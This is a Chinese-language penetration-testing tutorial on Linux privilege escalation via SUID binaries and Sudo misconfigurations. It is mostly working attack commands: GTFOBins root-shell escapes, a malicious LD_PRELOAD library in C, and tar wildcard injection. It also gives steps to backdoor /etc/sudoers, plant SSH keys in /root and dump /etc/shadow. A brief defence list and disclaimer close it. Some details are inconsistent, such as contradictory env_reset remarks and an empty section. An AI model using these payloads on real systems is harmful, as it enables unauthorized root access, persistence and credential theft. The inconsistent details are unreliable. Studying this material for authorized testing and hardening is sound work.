

## 引言

在Linux本地提权中，SUID（Set owner User ID）配置错误和Sudo配置不当是最常见的攻击面。SUID允许普通用户以文件所有者的权限（通常为root）运行程序，而Sudo通过策略规则授予受限的root操作能力。本文系统梳理SUID/Sudo枚举、利用技巧与防御要点。

---

## 一、SUID基础

### 1.1 SUID位

`SUID` 位（八进制 `4000`）作用于可执行文件。当文件设置了SUID位，其他用户执行它时，进程以**文件所有者**（而非执行者）的euid运行。

```bash
$ ls -la /usr/bin/passwd
-rwsr-xr-x 1 root root 59976 Jan 15  2024 /usr/bin/passwd
# rws → SUID + 用户执行位
# 八进制：4755 = SUID(4000) + rwxr-xr-x(755)
```

### 1.2 SUID枚举命令

```bash
# 核心枚举命令
find / -perm -4000 -type f -exec ls -la {} \; 2>/dev/null

# 排除噪音目录
find / -path /proc -prune -o -perm -4000 -type f -print 2>/dev/null

# 快速扫描常见目录
find /usr /bin /opt /sbin -perm -4000 -type f 2>/dev/null
```

---

## 二、常见SUID利用（GTFOBins）

[GTFOBins](https://gtfobins.github.io) 是SUID/Sudo利用的权威字典。下面列出渗透中最常遇到的SUID二进制及其利用payload。

### 2.1 find

```bash
# -exec 以文件所有者权限执行，-p保留euid，-quit避免循环
./find . -exec /bin/sh -p \; -quit
```

### 2.2 vim

```bash
# 方式一：直接调用shell
./vim -c ':!/bin/sh'

# 方式二：利用Python接口
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "exec sh")'
```

### 2.3 bash

```bash
# -p 禁止bash丢弃特权（部分发行版编译时禁用，此方式可能失效）
./bash -p
```

### 2.4 python / python3

```bash
./python -c 'import os; os.setuid(0); os.system("/bin/bash -p")'
./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

### 2.5 perl

```bash
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash -p";'
```

### 2.6 其他SUID二进制速查

| 二进制 | 利用命令 |
|--------|---------|
| `less` | 打开文件后 `!/bin/sh` |
| `more` | 同 `less`，`!/bin/sh` |
| `awk` | `./awk 'BEGIN {system("/bin/sh")}'` |
| `nmap` | 旧版 `--interactive`；新版 `--script=` 加载lua执行 |
| `cp/mv` | 复制 `/bin/sh` 并重新设置SUID：`chmod u+s /tmp/sh` |

---

## 三、Sudo配置审计与滥用

### 3.1 `sudo -l` 枚举

```bash
sudo -l

# 示例输出分析：
# User hacker may run the following commands on this host:
#   (root) NOPASSWD: /usr/bin/find           ← 无需密码，GTFOBins直接提权
#   (root) /usr/bin/vim /var/www/*            ← 通配符，可绕过路径限制
#   (ALL) SETENV: NOPASSWD: /usr/bin/python3  ← SETENV→LD_PRELOAD劫持
```

关键字段含义：`(root)`可切换用户、`NOPASSWD`免密、`SETENV`允许环境变量注入。

### 3.2 Sudo下的GTFOBins利用

SUID的GTFOBins payload对Sudo同样有效，只需在前面加 `sudo`：

```bash
sudo find . -exec /bin/sh \; -quit
sudo vim -c ':!/bin/sh'
sudo python -c 'import os; os.system("/bin/sh")'
```

---

## 四、LD_PRELOAD 劫持（SETENV）

当 `sudo -l` 输出含 `SETENV` 时，可保留 `LD_PRELOAD` 环境变量，强制目标程序加载恶意共享库。

### 4.1 条件

```bash
sudo -l
# (ALL) SETENV: NOPASSWD: /usr/bin/some_target
```

### 4.2 编写恶意共享库

```c
// evil.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash -p");
}
```

### 4.3 编译与执行

```bash
gcc -fPIC -shared -nostartfiles -o /dev/shm/evil.so evil.c
sudo LD_PRELOAD=/dev/shm/evil.so /usr/bin/some_target
# 获得 root shell
```

> **注意**：`/tmp` 常挂载 `nosuid` 导致共享库无效，换用 `/dev/shm`。

---

## 五、LD_LIBRARY_PATH 劫持

修改动态链接器搜索路径，提供同名恶意库劫持目标程序。

```bash
# 1. 查看依赖库
ldd /usr/bin/some_target

# 2. 编写恶意版依赖库（同名，含提权逻辑）
#    编译：gcc -shared -fPIC -o /tmp/libtarget.so evil.c

# 3. 执行
sudo LD_LIBRARY_PATH=/tmp /usr/bin/some_target
```

> 现代Linux的SUID程序处于secure-execution模式会**忽略** `LD_LIBRARY_PATH`。此技巧仅对因Sudo `SETENV` 而继承环境变量的**非SUID程序**有效。

---

## 六、Sudo通配符技巧

当 `sudo -l` 返回带通配符的命令时，可利用文件系统特性绕过路径限制。

### 6.1 符号链接绕过

```bash
# 场景：sudo -l → (root) NOPASSWD: /usr/bin/cat /var/log/*
ln -s /etc/shadow /var/log/zzz_shadow
sudo /usr/bin/cat /var/log/zzz_shadow    # 实际读取 /etc/shadow
```

### 6.2 参数注入（tar通配符）

```bash
# 场景：sudo tar cf archive.tar *
cd /tmp
echo 'payload' > '--checkpoint=1'
echo 'payload' > '--checkpoint-action=exec=sh shell.sh'
cat > shell.sh << 'EOF'
#!/bin/bash
chmod +s /bin/bash
EOF
chmod +x shell.sh
sudo tar cf /tmp/backup.tar /tmp/*
# tar 将通配符展开的文件名解释为参数，执行 shell.sh
```

### 6.3 通配符注入速查

| 命令 | 注入方式 |
|------|---------|
| `tar` | `--checkpoint=1` + `--checkpoint-action=exec=...` |
| `zip` | `zip -T -TT "id; zsh"` |
| `chown` | `--reference=file` 改变目标所有者 |
| `rsync` | `-e` 参数注入命令 |

---

## 七、NOPASSWD 权限滥用

任意命令被标记为 `NOPASSWD` 时无需密码即可执行，可肆意操作。

```bash
# 1. 提取密码哈希
sudo cat /etc/shadow                # → 离线爆破: john/hashcat

# 2. 写入SSH公钥
echo "ssh-rsa AAAA..." | sudo tee /root/.ssh/authorized_keys

# 3. 追加sudo权限
echo "hacker ALL=(ALL) NOPASSWD: ALL" | sudo tee -a /etc/sudoers

# 4. 配合GTFOBins直接提权
sudo awk 'BEGIN {system("/bin/sh")}'
```

---

## 八、提权流程总览



---

## 九、自动化工具

| 工具 | 用途 | 命令示例 |
|------|------|---------|
| [linPEAS](https://github.com/peass-ng/PEASS-ng) | 综合提权审计 | `./linpeas.sh -a` |
| [GTFOBins](https://gtfobins.github.io) | SUID/Sudo利用词典 | 在线查阅 |
| [pspy](https://github.com/DominicBreuker/pspy) | 无root进程监控 | `./pspy64` |
| [sudo_killer](https://github.com/TH3xACE/SUDO_KILLER) | Sudo配置专项审计 | `./sudo_killer.sh -c` |
| [traitor](https://github.com/liamg/traitor) | 自动化多向量提权 | `traitor -p` |

---

## 十、常见坑点

| 现象 | 原因 | 补救 |
|------|------|------|
| `./bash -p` 仍为普通shell | 现代bash编译时禁用SUID特权保留 | 改用 `python/perl/find` |
| `find -exec /bin/sh` 无root | shell丢弃特权 | 添加 `-p` 参数或换用 `bash -p` |
| LD_PRELOAD在/tmp无效 | `/tmp` 挂载 `nosuid` | 换到 `/dev/shm` 或 `/var/tmp` |
| GTFOBins命令不工作 | 二进制版本差异 | 查看具体发行版文档 |
| sudo无SETENV仍可设LD_PRELOAD | `env_reset`默认关闭 | 现代sudo默认 `env_reset`，通常不行 |

### Sudo版本与已知CVE

```bash
sudo --version   # 确认版本
```

- **CVE-2019-14287**：`sudo -u#-1` 绕过用户检查（sudo < 1.8.28）
- **CVE-2021-3156**（Baron Samedit）：堆缓冲区溢出，sudo 1.8.2–1.9.5p1受影响，无需密码提权

---

## 十一、防御建议

1. **最小化SUID**：审计 `find / -perm -4000` 并移除不必要SUID位：`chmod u-s /path/to/binary`
2. **收紧Sudo策略**：避免通配符、`ALL`、`NOPASSWD`，精确指定允许的命令与参数
3. **限制SETENV**：除非确有必要，否则不在 sudoers 中标注 `SETENV`
4. **及时更新**：修补 sudo 已知CVE，保持系统补丁在最新状态
5. **审计日志**：`Defaults logfile="/var/log/sudo.log"`；使用auditd监控 `/etc/sudoers`
6. **文件完整性监控**：AIDE、Tripwire 等工具监控关键SUID文件的变更

---

## 免责声明

> **本文仅供安全研究与授权测试学习参考，严禁用于非法入侵。**
>
> 渗透测试应仅限于已获得**书面授权**的系统。滥用文中技术可能导致民事赔偿与刑事起诉。作者不承担因读者误用而产生的任何法律责任。发现漏洞请遵循负责任披露流程（Responsible Disclosure）。

---

## 参考资源

- [GTFOBins](https://gtfobins.github.io)
- [HackTricks — Linux Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
- [PayloadsAllTheThings — PE](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation)
- [CVE-2021-3156 分析](https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt)
- [linPEAS](https://github.com/peass-ng/PEASS-ng)
